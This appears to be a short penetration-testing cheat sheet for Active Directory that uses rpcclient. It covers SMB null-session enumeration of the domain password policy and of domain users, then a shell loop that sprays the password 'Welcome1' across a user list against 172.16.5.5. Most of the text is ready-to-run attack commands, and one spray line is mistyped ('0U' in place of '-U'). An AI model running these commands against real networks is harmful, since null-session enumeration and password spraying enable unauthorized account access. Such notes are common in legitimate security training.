 -- -
Can be used outside of an AD context, but will generally be used in an AD context.
#### Enumerate Password Policy w/o valid credentials
Uses SMB null session to achieve this.
```bash
# Establish a NULL SMB session
rpcclient -U "" -N <ip> 
rpcclient -U "" -N 172.16.5.5

# Confirm NULL session Access
rpcclient $> querydominfo

# query Password Policy
rpcclient $> getdompwinfo
```

^c2a0e3
#### Enumerating valid users w/o credentials
```bash
# Connect to a NULL session
rpcclient -U "" -N <ip>

# query domain users
rpcclient $> enumdomusers
```

^0efe93

#### Password Spray
```bash
for u in $(cat <userlist>.txt);do rpcclient 0U "$u%<passwd>" -c "getusername;quit" dc ip | grep Authority; done

for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

^c36a7d
